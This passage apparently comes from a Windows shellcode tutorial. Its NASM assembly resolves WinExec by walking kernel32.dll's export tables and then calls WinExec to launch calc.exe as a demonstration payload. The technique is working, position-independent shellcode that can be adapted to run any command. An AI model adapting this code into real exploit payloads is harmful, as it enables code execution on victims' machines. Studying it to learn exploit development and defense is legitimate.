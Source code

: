 ```nasm
        xor ecx, ecx

        cld  			; set DF=0 => process strings from left to right
        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
        			; edi = RVA Nth entry = Address of Name Table * 4
        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
        repe cmpsb        	; Compare the first 8 bytes of strings in 
        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
        jz start.found

        inc eax 		; counter++
        cmp eax, edx    	; check if last function is reached
        jb start.loop 		; if not the last -> loop

        add esp, 26h      		
        jmp start.end 		; if function is not found, jump to end

.found:
	; the counter (eax) now holds the position of WinExec

        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
        mov edx, [ebp-14h]  	; edx = var20 = Address of Address Table

        mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
        mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
        add eax, ebx 		; eax = address of WinExec = 
        			; = kernel32.dll base address + RVA of WinExec

.end:
	add esp, 26h		; clear the stack
	pop ebp
	ret
```

# <a name="call_function"></a> Call the function  
---
What's left is to call `WinExec` with the appropriate arguments: 
```nasm
xor edx, edx
push edx		; null termination
push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp   ; esi -> "C:\Windows\System32\calc.exe"

push 10  ; window state SW_SHOWDEFAULT
push esi ; "C:\Windows\System32\calc.exe"
call eax ; WinExec
```
